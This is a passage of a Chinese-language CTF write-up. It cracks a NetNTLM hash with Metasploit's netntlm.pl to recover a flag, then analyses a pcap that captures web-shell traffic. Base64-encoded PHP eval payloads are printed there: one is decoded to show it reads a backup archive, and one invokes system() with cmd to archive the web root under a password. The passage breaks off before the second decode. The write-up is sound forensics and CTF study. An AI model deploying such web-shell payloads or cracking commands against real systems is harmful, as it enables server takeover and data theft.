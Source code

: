 第一步搞定，这里得到的结果为：

9e94258a03356914 NETLMIS hex:4e45544c4d495

Step 2: Perl 脚本跑起来

* * *

这里卡了一会，因为看雪的帖子并没有说 John 文件是如何构造的，他那个是 Metasploit 自动生成的，所以我又翻了好几个帖子，最后构造了这样一个文件：

user::domain:9e94258a03356914b15929fa1d2e290fab9c8f9f01999448:013f3cb06ba848f98a6ae6cb4a76477c5ba4e45cda73b475:1122334455667788

然后去 Kali 下的 metasploit-framework 下跑 netntlm.pl 脚本：

winson@kali:/usr/share/metasploit-framework/data/john/run.linux.x64.mmx$

sudo perl ./netntlm.pl --seed "NETLMIS" --file /tmp/john_netntlm

跑完第一遍得到 NETLMIS666，这个是不区分大小写的，我们还需要跑第二遍，第二遍得到 NetLMis666，因此 Flag 为 SCTF{NetLMis666}。

## MISC400A

* * *

Wireshark 打开 pcap 文件，输入过滤器“tcp contains ".rar"”，发现一个编号为 10192 的 POST 数据包，参数经过 Unescape 解码后得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskRj1nZXRfbWFnaWNfcXVvdGVzX2dwYygpP3N0cmlwc2xhc2hlcygkX1BPU1RbInoxIl0pOiRfUE9TVFsiejEiXTskZnA9QGZvcGVuKCRGLCJyIik7aWYoQGZnZXRjKCRmcCkpe0BmY2xvc2UoJGZwKTtAcmVhZGZpbGUoJEYpO31lbHNle2VjaG8oIkVSUk9SOi8vIENhbiBOb3QgUmVhZCIpO307ZWNobygifDwtIik7ZGllKCk7&z1=C:\\inetpub\\wwwroot\\backup\\wwwroot.rar 
```

其中 z0 参数经过 Base64 解码后得到：

```
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];$fp=@fopen($F,"r");if(@fgetc($fp)){@fclose($fp);@readfile($F);}else{echo("ERROR:// Can Not Read");};echo("|<-");die(); 
```

可以知道这里是读取了 wwwroot.rar 这个压缩包文件，在 Wireshark 将 Rar 给 Dump 出来，解压发现需要密码。因为 rar 文件比较大，所以 10192 附近有很多 TCP 的数据包，所以我们使用过滤器“http”进行筛选之后再观察 10192 附近的数据包，发现了很多 POST 数据包。

从 10192 开始，往上一个一个的看 POST 数据包，发现编号 9997 的数据包参数经过 Unescape 解码后得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=&z1=Y21k&z2=Y2QgL2QgImM6XGluZXRwdWJcd3d3cm9vdFwiJkM6XHByb2dyYX4xXFdpblJBUlxyYXIgYSBDOlxJbmV0cHViXHd3d3Jvb3RcYmFja3VwXHd3d3Jvb3QucmFyIEM6XEluZXRwdWJcd3d3cm9vdFxiYWNrdXBcMS5naWYgLWhwSkpCb29tJmVjaG8gW1NdJmNkJmVjaG8gW0Vd 
```

对参数进行 Base64 解码得到：
